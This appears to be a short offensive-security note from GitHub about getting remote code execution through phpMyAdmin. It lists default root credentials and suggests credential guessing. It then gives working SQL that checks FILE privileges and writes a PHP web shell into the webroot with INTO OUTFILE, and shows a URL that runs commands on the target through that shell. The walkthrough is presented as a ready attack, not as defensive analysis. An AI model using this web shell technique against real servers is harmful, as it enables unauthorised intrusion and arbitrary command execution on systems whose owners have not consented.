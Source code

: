 
The default username for phpMyAdmin is "root" and the default password is usually empty.

#### **Prerequisites**

- Access to the phpMyAdmin interface with valid credentials (via credential guessing or other methods).
- `FILE` privileges granted to the MySQL user account.
- The webroot location of the target server must be known and writable by MySQL.
- Note
![image](https://github.com/user-attachments/assets/8b60f1c5-8335-436b-91c9-8ea681ee8143)
This looks like it would be vulnerable to an Insecure Direct Object Reference (IDOR).

#### **Steps to Achieve RCE**

1. **Confirm File Privileges** Run the following query to check if the MySQL user has `FILE` privileges:
    
    ```sql
    SHOW GRANTS FOR CURRENT_USER;
    ```
![image](https://github.com/user-attachments/assets/19dd848f-e020-4aee-b76b-d052fdce2562)

    Look for `FILE` privilege in the output.
    
2. **Determine the Webroot Location**
    
    - Use phpinfo() if accessible via the web server to identify the document root.
    - ![Screenshot 2025-02-28 223302](https://github.com/user-attachments/assets/c63a7679-dfc2-4a98-805f-5955791138c3)
    - Typical webroots:
        - LAMP: `/var/www/html`
        - WAMP/XAMPP: `C:/wamp/www` or `C:/xampp/htdocs`
3. **Create the Webshell** Use the `OUTFILE` function to write a webshell:
    
    ```sql
    SELECT '<?php system($_GET["cmd"]); ?>;' INTO OUTFILE '/path/to/webroot/shell.php';
    ```
    
    Replace `/path/to/webroot/` with the identified webroot (e.g., `C:/wamp/www/`).
    
4. **Access the Webshell** Navigate to the shell via a browser:
    
    ```
    http://<target-ip>/shell.php?cmd=whoami
    ```
    Replace `cmd` with your desired command.
    

---

